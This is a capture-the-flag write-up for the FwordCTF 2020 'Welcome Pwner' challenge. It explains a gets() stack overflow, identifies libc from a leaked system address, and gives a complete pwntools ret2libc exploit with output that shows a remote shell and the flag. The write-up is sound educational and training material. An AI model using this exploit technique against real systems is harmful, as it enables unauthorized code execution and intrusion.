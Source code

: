 # FwordCTF 2020

## Welcome Pwner

> 374
> 
> something to warm you up.
>
> `nc 54.210.217.206 1240`
>
> Author : haflout
>
> [`Molotov`](molotov)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Beginner BOF with `system` leaked, however user must find libc version themselves.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however no stack canary; BOF -> ROP.

    
### Decompile with Ghidra

```c
undefined4 vuln(void)
{
  char local_20 [24];
  
  printf("%x\n",system);
  puts("Input : ");
  gets(local_20);
  return 0;
}
```

Not a lot here; `system` address leaked with `gets` vulnerability.  `local_20` is `0x20` bytes from the return address on the stack.  Basic BOF.

Without knowing the version of libc we cannot pass the location of `/bin/sh` to `system`;  identifying that however is simple with [libc-database](https://github.com/niklasb/libc-database):

```
# nc 54.210.217.206 1240
f7de68b0
Input :
```

Take the last 3 nibbles and pass to `./find`:

```
# ./find system 8b0 | grep _i386
archive-glibc (id libc6_2.30-0ubuntu2.1_i386)
ubuntu-eoan-i386-libc6 (id libc6_2.30-0ubuntu2.2_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.30-0ubuntu2_i386.deb (id libc6_2.30-0ubuntu2_i386)
```

Multiple hits.  I went with `libc6_2.30-0ubuntu2_i386` and it worked out just fine.  If it had failed, then there was only two other options to try.


### Exploit

This code assumes that `libc-database` is located in the same directory (I just sym linked it) as `exploit.py`.

From within the `libc-database` type:

```
# ./download libc6_2.30-0ubuntu2_i386
```

This will download libc, ld, et al.

Exploit Setup:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./molotov')
context.log_level = 'INFO'
context.log_file = 'log.log'

'''
# local libc
libc = binary.libc
p = process(binary.path)
'''
# task libc
libid = 'libc6_2.30-0ubuntu2_i386'
libpath = os.getcwd() + '/libc-database/libs/' + libid + '/'
ld = ELF(libpath + 'ld-2.30.so')
libc = ELF(libpath + 'libc-2.30.so')
#p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})
p = remote('54.210.217.206', 1240)
#'''
```

The first few lines should not require much of an explanation, except perhaps the `binary = context.binary = ELF('./molotov')` statement.  The `context.binary` there in the middle will set the context (arch, os, etc...) so that `rop`, `asm`, `constants`, etc... statements produce the correct results.

The next section (selected by placing `#` at the first or last `'''`) determines if you want to use your local libc or the challenge libc.  For most easy challenges I dev/test with the local libc and then just test with the task libc.  However for some, especially when pulling addresses from the stack, I've found inconsistencies between my local libc is vs. the task libc.  Often time is wasted having to refactor or completely resolve for the task libc.  The second block handles launching a challenge binary with the intended libs.  And `gdb` works just fine with this as well.

Actual Exploit:

```python
_ = p.recvline()
system = int(_,16)
log.info('system: ' + hex(system))
libc.address = system - libc.sym.system
log.info('baselibc: ' + hex(libc.address))

payload  = 0x20 * b'A'
payload += p32(libc.sym.system)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter('Input : \n',payload)
p.interactive()
```

With the correct libc in hand, just capture the system address, compute the base of libc, then setup your ROP chain after padding with `0x20` bytes.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/molotov'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-database/libs/libc6_2.30-0ubuntu2_i386/ld-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-database/libs/libc6_2.30-0ubuntu2_i386/libc-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 54.210.217.206 on port 1240: Done
[*] system: 0xf7dac8b0
[*] baselibc: 0xf7d67000
[*] Switching to interactive mode
$ id
uid=1000(fword) gid=1000(fword) groups=1000(fword)
$ ls -l
total 32
-rw-r--r-- 1 root root    24 Aug 29 14:25 flag.txt
-rwxr-xr-x 1 root root  7492 Aug 29 14:25 molotov
-rwxr-xr-x 1 root root 18744 Aug 29 14:25 ynetd
$ cat flag.txt
FwordCTF{good_j0b_pwn3r}
```